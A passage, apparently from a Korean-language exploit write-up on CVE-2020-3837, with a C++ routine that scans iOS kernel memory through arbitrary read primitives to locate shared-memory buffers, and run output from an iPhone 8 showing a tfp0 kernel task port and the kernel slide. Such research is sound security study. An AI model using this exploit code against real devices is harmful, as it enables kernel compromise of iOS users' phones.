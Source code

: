 ```cpp
void find_shmem_in_kernel(uint64_t *kva1, uint64_t *kva2, uint64_t command_buffer_shmem_sig, uint64_t segment_list_shmem_sig) {
    uint64_t command_buffer_shmem_data_kva = 0;
	uint64_t segment_list_shmem_data_kva = 0;
	uint64_t gIOKitPageableSpace_start = kread64(ksym(KSYMBOL_gIOKitPageableSpace) + 0x10);
	uint64_t gIOKitPageableSpace_end = kread64(ksym(KSYMBOL_gIOKitPageableSpace) + 0x18);

	int i = 0;

	while(1) {
		uint64_t current_kva = gIOKitPageableSpace_start + i * 0x1000;

		if(current_kva > gIOKitPageableSpace_end) {
			ERROR("failed to find where shmem allocated in kernel\n");
			break;
		}

		//check if valid readable kernel address to prevent kernel panic
		uint64_t current_pa = kvtophys(current_kva);
		if(current_pa == 0) continue;

		if(physread64(current_pa) == command_buffer_shmem_sig) {
			INFO("Found command_buffer_shmem in kernel: 0x%llx\n", current_kva-0x1000);
			command_buffer_shmem_data_kva = current_kva-0x1000;
            *kva1 = command_buffer_shmem_data_kva;
		}

		if(physread64(current_pa) == segment_list_shmem_sig) {
			INFO("Found segment_list_shmem in kernel: 0x%llx\n", current_kva-0x1000);
			segment_list_shmem_data_kva = current_kva-0x1000;
            *kva2 = segment_list_shmem_data_kva;
		}

		if(segment_list_shmem_data_kva && command_buffer_shmem_data_kva) break;

		i++;
	}
}
```

아래 실행 결과처럼 segment list는 항상 command buffer 앞에 위치하고 있고,

```cpp
iPhone-8--1201:~ root# CVE-2020-3837 
[*] alloc_shmem ret: 0x0 ((os/kern) successful)
[i] offsets selected for iOS 12.0.1
host: 0xb03
[*] tfp0: 0xc03
[*] get_kbase ret: 0, kbase: 0xfffffff018604000, kslide: 0x11600000
[*] Found segment_list_shmem in kernel: 0xffffffe03231c000
[*] Found command_buffer_shmem in kernel: 0xffffffe032320000
[*] command_buffer_shmem_data_kva: 0xffffffe032320000
[*] segment_list_shmem_data_kva: 0xffffffe03231c000
```
